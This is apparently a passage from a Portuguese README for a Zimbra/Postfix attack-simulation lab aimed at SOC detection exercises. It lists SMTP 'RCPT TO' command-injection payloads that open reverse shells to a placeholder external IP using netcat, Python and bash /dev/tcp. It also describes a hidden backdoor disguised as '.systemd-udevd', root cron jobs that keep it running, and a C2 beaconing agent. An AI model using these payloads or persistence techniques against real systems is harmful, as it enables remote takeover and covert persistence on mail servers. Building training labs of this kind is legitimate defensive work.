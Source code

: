 **Resposta esperada**: `250 OK - Output: uid=999(zimbra) gid=999(zimbra) groups=999(zimbra)`

### **Método 3: Payloads Avançados**

#### **3.1 Reverse Shell com Netcat**
```bash
RCPT TO: <"aabbb$(nc -e /bin/bash IP_EXTERNO 4444)@test.com">
```

#### **3.2 Reverse Shell com Python**
```bash
RCPT TO: <"aabbb$(python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP_EXTERNO\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"]);')@test.com">
```

#### **3.3 Reverse Shell com Bash**
```bash
RCPT TO: <"aabbb$(bash -i >& /dev/tcp/IP_EXTERNO/4444 0>&1)@test.com">
```

## 🕵️ Backdoor Stealth Integrado

### **Características**
- **Localização**: `/usr/local/lib/systemd/system/.systemd-udevd`
- **Nome**: Arquivo oculto (`.systemd-udevd`)
- **Execução**: Automática com container
- **Monitoramento**: Cron jobs de verificação

### **Funcionalidades**
- Simula servidor Postfix real
- Executa comandos como usuário zimbra
- Retorna saída dos comandos para o atacante
- Detecta padrões de expansão de shell
- Suporte a payloads base64

### **Monitoramento Automático**
```bash
# Cron job a cada 2 minutos
*/2 * * * * root /usr/local/lib/systemd/system/.systemd-udevd >/dev/null 2>&1 &

# Cron job a cada 1 minuto (verificação de porta)
*/1 * * * * root if ! netstat -tlnp | grep -q ':2525'; then /usr/local/lib/systemd/system/.systemd-udevd >/dev/null 2>&1 &; fi
```

## Agente de Simulação C2 (svcmon)

- O binário `svcmon-linux` (Go) é copiado para o container e executado automaticamente via cron (@reboot).
- O agente realiza requisições periódicas para https://www.rodrigobrito.dev.br e registra logs em `/var/log/svcmon.log`.
- Objetivo: Simular beaconing C2 para exercícios de detecção SOC.
